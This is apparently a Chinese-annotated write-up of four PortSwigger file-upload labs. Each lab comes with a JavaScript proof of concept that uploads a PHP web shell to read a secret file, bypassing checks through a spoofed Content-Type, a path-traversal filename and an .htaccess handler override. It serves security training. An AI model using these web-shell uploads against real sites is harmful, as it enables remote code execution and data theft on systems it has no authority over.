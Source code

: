 ```yaml
---
title: File upload vulnerabilities
description: File upload vulnerabilities
---
```


## Lab: Remote code execution via web shell upload

| Dimension | Description                                                                                                 |
| --------- | ----------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-upload#exploiting-unrestricted-file-uploads-to-deploy-a-web-shell |
| Lab       | https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload |

沒想到這題是 APPRENTICE，我想應該就是上傳檔案，沒有實作副檔名跟內容限制吧，雖然是最簡單的技巧，但是影響力卻很高，CVSS 評分應該可以到滿分的漏洞

PoC

```js
const fd = new FormData();
fd.append("user", "wiener");
fd.append("csrf", "2odrwN7cqkhKRQRvotaiv1n1lwdYWDzw");
fd.append(
  "avatar",
  new File(
    ['<?php echo file_get_contents("/home/carlos/secret");?>'],
    "shell.php",
  ),
);
fetch(
  "https://0ad800ba04fb60a081dbe4fb002700ab.web-security-academy.net/my-account/avatar",
  {
    body: fd,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: Web shell upload via Content-Type restriction bypass

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-upload#flawed-file-type-validation                                          |
| Lab       | https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass |

這題也是基本題，在真實世界用到爛掉的 Bypass 手法

```js
const fd = new FormData();
fd.append("user", "wiener");
fd.append("csrf", "m6UOOFWOQLPqPMrLYYBVcs8dkcAraT1t");
fd.append(
  "avatar",
  new File(
    ['<?php echo file_get_contents("/home/carlos/secret");?>'],
    "shell.php",
    { type: "image/png" },
  ),
);
fetch(`${location.origin}/my-account/avatar`, {
  body: fd,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

## Lab: Web shell upload via path traversal

| Dimension | Description                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-upload#preventing-file-execution-in-user-accessible-directories |
| Lab       | https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal      |

這招也是我在真實世界用過的手法

PoC

```js
const fd = new FormData();
fd.append("user", "wiener");
fd.append("csrf", "isZVVSYEYtpRlaCX6yz0anh5DAVx57Nb");
fd.append(
  "avatar",
  new File(
    ['<?php echo file_get_contents("/home/carlos/secret");?>'],
    "..%2fshell.php",
  ),
);
fetch(`${location.origin}/my-account/avatar`, {
  body: fd,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

server 回傳

```
The file avatars/../shell.php has been uploaded.
```

之後訪問 `/files/avatars/..%2fshell.php` => `/files/shell.php` 即可達成 RCE

## Lab: Web shell upload via extension blacklist bypass

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-upload#insufficient-blacklisting-of-dangerous-file-types               |
| Lab       | https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass |

先上傳 `.htaccess`

```js
const fd = new FormData();
fd.append("user", "wiener");
fd.append("csrf", "IGiRSDTUXszpBJ3J9UsP9jz22kivemQu");
fd.append(
  "avatar",
  new File([`AddType application/x-httpd-php .hello`], ".htaccess"),
);
fetch(`${location.origin}/my-account/avatar`, {
  body: fd,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

再上傳 `shell.hello`

```js
const fd = new FormData();
fd.append("user", "wiener");
fd.append("csrf", "IGiRSDTUXszpBJ3J9UsP9jz22kivemQu");
fd.append(
  "avatar",
  new File(
    ['<?php echo file_get_contents("/home/carlos/secret");?>'],
    "shell.hello",
  ),
);
fetch(`${location.origin}/my-account/avatar`, {
  body: fd,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

這招確實猛，我以前沒想過可以這樣搞

## 參考資料

- https://portswigger.net/web-security/file-upload
